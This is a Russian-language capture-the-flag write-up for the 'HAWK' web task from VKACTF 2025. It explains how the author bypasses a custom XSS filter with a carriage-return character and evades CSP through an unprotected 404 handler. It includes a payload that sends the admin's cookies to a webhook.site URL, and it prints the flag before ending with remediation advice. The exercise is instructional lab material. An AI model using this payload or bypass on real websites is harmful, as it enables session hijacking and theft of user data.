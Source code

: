## HAWK

| Событие | Название | Категория | Сложность |
| :------ | ------ | ------ | ------ |
| VKACTF 2025 | HAWK | web | easy |

  
### Описание

> Автор: [m1st3r_Sc413t7x](https://t.me/m1st3r_Sc413t7x)
>
В системе `HAWK` (Х.О.К.) мнения граждан учитываются "единогласно", но окончательное слово всегда за доктором Сеченовым, который в последнее время неохотно одобряет какую-либо инициативу. Возможно он что-то скрывает. Проведите голосование так, чтобы обойти алгоритмы `Коллектива 2.0` и узнайте ЧТО же это. 


### Решение

Пользователю дан сервис, представляющий собой реализацию голосования, где один из членов `Коллектива` выдвигает какую-то идею, а все остальные голосуют, но по итогу последнее слово всегда принимает администратор - доктор Сеченов. Изучив описание и сервис понимаем, что все наши голосования просматриваются администратором. Это наталкивает нас сразу на мысль перехватить запрос и посмотреть, что же там. Пытаемся провести `XSS` инъекцию и понимаем, что есть какая-то фильтрация на теги.

```js
11<script>alert(1)</script>22 -> 1122
```

Настало время посмотреть "исходники". В них видим интересную функцию в файле `/static/js/app.js`, которая санитизирует любые теги, видимо в целях безопасности. Но в любом случае самописная фильтрация, возможно, может быть уязвима, как и в нашем случае. Перебрав несколько, а может и множество вариантов, понимаем, что обходом данной фильтрации является символ возврата коретки %0d:

```js
<script%0d>alert(1)</script%0d>
```

Но мы не можем использовать такую нагрузку в наших полях. Хорошо что в этом же файле мы видим, что помимо этого у нас есть 2 параметра, которые могут принимать значения и работать абсолютно также:

```go
const title = urlParams.get("title");
const description = urlParams.get("description");
```

Хорошо, а теперь работаем через них. Вводим простую нагрузку ииии... Не работает, но почему? Видимо нужно посмотреть "исходники" еще раз. И да, действительно, в файле `/app/routes.py` находим `CSP`, который запрещает нам выполнение скриптов от внешних источников. И как быть? Нужно найти какой-то вариант получить запрос. Стоит фильтрация, стоит `CSP`, давайте еще внимательнее посмотрим исходники. И вот за что мы должны зацепиться:

```py
def page_not_found(error):
    path = request.path
    return f"{path} not found"
```

В том же файле `/app/routes.py` находится обработчик несуществующей страницы, на который не распространяется наша `CSP`. Пытаемся выполнить любой скрипт (обходя санитизацию) - проходит, бинго, осталось подобрать рабочую нагрузку, чтобы перехватить запрос вместе с `cookies`:

```js
?title=test&description=<script%20src="http://{url}:17788/a/;fetch(%27https://webhook.site/e4e0eb38-45ad-4dcb-b55a-89fa68dc65a6//%27.concat(%27%27,document.cookie));//%22%0d/%3E%3C/script%0d%3Ehello
```

### Флаг возвращается на вебхук

![](./img/webhookflag.png)

### Устранение уязвимости

В данном таске были собраны несколько уязвимостей, которые естественно должны быть закрыты в реальном приложении:
1) Использование самописной `XSS` фильтрации небезопасно, лучше использовать уже проверенные решения, например, `DOMPurify`.
2) Необходимо обрабатывать все поступающие данные, даже с таких обработчиков, как на нашем примере.
3) Не нужно реализовывать многовходное поступление данных, если в этом нет необходимости.

### Флаг

```
vka{ya_dumal_easy_xss_a_tut_csp_kakoeto_vzyalos}
```
